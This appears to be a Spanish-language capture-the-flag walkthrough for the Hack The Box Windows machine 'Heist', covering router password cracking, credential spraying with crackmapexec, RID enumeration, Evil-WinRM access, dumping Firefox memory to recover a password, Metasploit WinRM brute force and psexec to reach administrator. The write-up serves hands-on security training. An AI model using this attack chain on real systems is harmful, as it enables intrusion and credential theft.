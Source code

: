 ## HTB-Heist
- Maquina: **Windows**
- Level: **Easy**
- IP: **10.10.10.149**

## Herramientas a utilizar:
- nmap
- jhon = John the Ripper
-   https://packetlife.net/toolbox/type7/
-   https://github.com/Hackplayers/evil-winrm
-   https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
- crackmapexec
- smbmap
- sysinternals
- metaexploit
- psexec.p

```
nmap -sC -sV -o scan_heist.txt 10.10.10.149
```
Encontraremos los siguiente puertos abierto.

|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|80/tcp|open| http|Microsoft IIS httpd 10.0
|135/tcp|open|msrpc| Microsoft Windows RPC
|445/tcp|open|microsoft-ds?|

Primero iniciaremos a enumerar por el puerto 80
```
http://10.10.10.149/
```
Aqui tenemos un login, pero si nos fijamos bien, tenemos un acceso de invitado, podemos llegar a
```
http://10.10.10.149/attachments/config.txt
```
Este archivo contiene la configuracion de un router en el cual veremos varios users y password.

|1| secret 5 |$1$pdQG$o8nrSzsGXeaduXrjlvKc91
|----|----|----|
|2| username rout3r password 7 |0242114B0E143F015F5D1E161713 
|3| username admin privilege 15 password 7 |02375012182C1A1D751618034F36415408

Con el primero intentaremos Crakear el password creamos un archivo `hashespass.txt` y en el colocamos: `enable_secret:$1$pdQG$o8nrSzsGXeaduXrjlvKc91` Ahora utilizamos **John the Ripper** y el Direccionario **rockyou.txt**
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashespass.txt
```
Nuestro resultado sera: **stealth1agent**    (enable_secret)

Con los demas iremos al siguiente Web: https://packetlife.net/toolbox/type7/
El resultado sera:

|user| password|
|---|---|
|rout3r| $uperP@ssword
|admin |Q4)sJu\Y8qz*A3?d

Colocamos todos los usuario en **user.txt** y los password en **pass.txt**

Utilizaremos `crackmapexec` con los archivos **user.txt** y otro con los **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```

De los resultado de crackmapexec tenemos que:
SUPPORTDESK [+] **SupportDesk\hazard:stealth1agent**


Ahora utilizaremos **smbmap** para ver que nivel tenemos con el usuario **hazard**
```
smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: heist.htb
	Disk                                      	Permissions
	----                                      	-----------
	ADMIN$                                    	NO ACCESS
	C$                                        	NO ACCESS
	IPC$                                      	READ ONLY
```

Notamos que solo tenemos acceso **read only** remote ipc
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> lookupnames hazard
```
Nuestro output sera: 
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
```
Ahora tenemos el siguiente output
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

Con el SID podemos intentaremos listar los usuarios.
```
rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
```
Si todo va bien tenemos una output: S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)

Por lo que ahora haremos una funcion para ver todo los posible SID y removiendo los unknown.
```
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Con esto veremos 2 usuarios **Chase** y **Jason** los agregaremos a `user.txt`
Utilizaremos `crackmapexec` otra vez con los archivos **user.txt** y **pass.txt**
```
crackmapexec smb 10.10.10.149 -u user.txt -p pass.txt
```
Y veremos que el usuario **Chase:`Q4)sJu\Y8qz*A3?d`**

Utilizaremos **Evil-WinRM**, pero en mi caso particular lo utilice de la siguiente manera
con `gem install winrm winrm-fs colorize stringio`
```
ruby evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -p 'Q4)sJu\Y8qz*A3?d'
```

Ahora tenemos acceso a heist con el usuario **chase**
Enumeracion y encontramos que en 
```
C:\inetpub\wwwroot> 
```
Existe dos archivos `error.php` y `login.php` 
```
En login.php vemos:
hash: 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
user: admin@support.htb
```
Colocamos el hash en `hash_admin.txt` y utilizamos John otra vez
```
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt hash_admin.txt
```
y Esto no funciono 🤷‍♂️

Aqui solo puedo decir que despues de Mucho buscar en internet he intentar y intentar

Volvi Heist con la session de Chase y me puse a buscar en los procesos

C:\Program Files> 
Ejecutamos **Get-Process**

Vi que Firefox se estaba ejecutando.

|408|31|17404|63308|2.17|2768|1| firefox|
|--|--|--|--|--|--|--|--|
|390 | 32|    43244|      75072|      57.30|   **4728**|   1| firefox
|358 |     27|    16364|      37608|       0.58|   6808|   1| firefox
|1151|      70|   132720|     204480|      28.55|   6924|   1| firefox
|343 |     20|     9976|      37300|       0.33|   7052|   1| firefox
    
Por lo que descargue `systeminternal` desde https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
```
unzip sysinternals-suite
```
Volvemos acceder a heist con el usuario chase y subimos el `procdump64.exe`
```
upload procdump64.exe
.\procdump64.exe -accepteula
.\procdump64.exe -ma 4728 <4728 es el id_proc firefox que encontramos>.
```
Esto genera un archivo **firefox.exe_`fechayhora`.dmp** el cual deberemos descargar.
En nuestro caso fue:
```
download firefox.exe_2102209_003234.dmp
```
Mientras se esta descargado con otra shell vamos hacer la siguiente busqueda.
```
strings firefox.exe_210209_003234.dmp |grep admin@support.htb
```

y con esto veremos password del admin@support.htb el es XXXXXXXXX
actualizamos los archivo user: con admin@support.htb y el pass con XXXXXXXXX
volvemos a probar con crackmapexec
```
crackmapexec smb 10.10.10.149 -u user -p pass
```

Si por alguna razon no tienes el resultado utilizando el proceso de Firefox, puede utilizar el siguiente mentodo.
```
msfconsole
use auxiliary/scanner/winrm/winrm_login
set pass_file /home/r0ok1e/Downloads/htb/machine/heist/pass.txt
set user_file /home/r0ok1e/Downloads/htb/machine/heist/user.txt
set rhost 10.10.10.149
run
```
Y aqui veremos que funciona user/pass chase y el del administrator

Para poder acceder con esta nuevas credenciales utilizaremos `PSEXEC`.
```
locate psexec.p
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

Listo, solo es ir a Desktop del administrator y tenemos root.txt y nuestra flag
